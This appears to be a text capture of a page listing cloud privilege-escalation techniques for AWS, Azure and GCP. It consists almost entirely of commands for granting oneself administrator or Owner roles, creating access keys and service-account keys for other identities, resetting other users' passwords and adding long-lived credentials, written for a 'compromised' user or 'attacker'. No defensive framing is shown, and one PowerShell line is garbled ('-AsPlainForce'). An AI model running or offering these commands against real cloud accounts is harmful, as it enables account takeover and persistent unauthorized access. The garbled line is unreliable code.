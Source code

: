 **AWS Escalation Techniques:**

```bash
# Technique 1: CreateAccessKey on other users
aws iam create-access-key --user-name TargetAdminUser

# Technique 2: AttachUserPolicy (grant self admin)
aws iam attach-user-policy \
  --user-name CompromisedUser \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess

# Technique 3: CreateRole + AssumeRole
aws iam create-role --role-name EscalationRole \
  --assume-role-policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Allow",
      "Principal": {"AWS": "arn:aws:iam::123456789012:user/CompromisedUser"},
      "Action": "sts:AssumeRole"
    }]
  }'

aws iam attach-role-policy \
  --role-name EscalationRole \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

**Azure Escalation Techniques:**

```powershell
# Technique 1: Grant self "Owner" role
New-AzRoleAssignment -SignInName attacker@company.com `
  -RoleDefinitionName "Owner" `
  -Scope "/subscriptions/sub-id"

# Technique 2: Reset other user passwords
Set-AzureADUserPassword -ObjectId target-user-id `
  -Password (ConvertTo-SecureString "NewPass123!" -AsPlainForce)

# Technique 3: Add credentials to service principal
New-AzADSpCredential -ObjectId service-principal-id `
  -EndDate (Get-Date).AddYears(10)
```

**GCP Escalation Techniques:**

```bash
# Technique 1: Grant self "Owner" role
gcloud projects add-iam-policy-binding project-id \
  --member="user:attacker@company.com" \
  --role="roles/owner"

# Technique 2: Impersonate service account
gcloud iam service-accounts add-iam-policy-binding \
  victim-sa@project-id.iam.gserviceaccount.com \
  --member="user:attacker@company.com" \
  --role="roles/iam.serviceAccountTokenCreator"

# Technique 3: Create service account key
gcloud iam service-accounts keys create key.json \
  --iam-account=admin-sa@project-id.iam.gserviceaccount.com
```

---